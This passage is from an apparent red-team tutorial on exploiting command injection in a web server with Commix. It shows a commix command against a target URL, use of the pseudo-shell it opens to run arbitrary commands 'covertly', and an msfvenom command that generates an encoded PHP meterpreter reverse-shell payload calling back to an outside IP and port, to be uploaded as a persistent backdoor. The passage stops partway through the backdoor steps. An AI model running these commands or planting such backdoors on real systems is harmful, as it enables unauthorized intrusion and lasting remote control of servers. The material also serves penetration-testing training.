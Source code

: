 1. After you have installed commix, you can test the target site for command injection vulnerabilities with Commix by running the following command:

        commix -u http://<SERVER-IP>/authg?c=whoami

    Commix will test the URL provided for any command injection vulnerabilities, in this case, it will detect a command injection vulnerability and will ask you whether you want a pseudo-terminal shell as shown in the following screenshot.

    ![Commix pseudo terminal shell prompt](commix-pseudo-terminal-shell-prompt.png "Commix pseudo terminal shell prompt")

1. In this case, we will say yes, after which Commix will provide you with the pseudo shell that you can use to execute arbitrary commands as shown in the following screenshot.

    ![Commix pseudo terminal shell prompt - ls command](commix-pseudo-terminal-shell-prompt-ls-command.png "Commix pseudo terminal shell prompt - ls command")

    This can be very useful during red team engagements as you can easily execute commands on the target system covertly.

## Uploading a PHP Backdoor with Commix

Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor with Commix that we can then use to gain access to the target system whenever required.

1. The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

        msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.21 LPORT=1234 -e php/base64 -f raw > shell.php

1. Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

    ![Commix PHP backdoor file contents](commix-php-backdoor-file-contents.png "Commix PHP backdoor file contents")
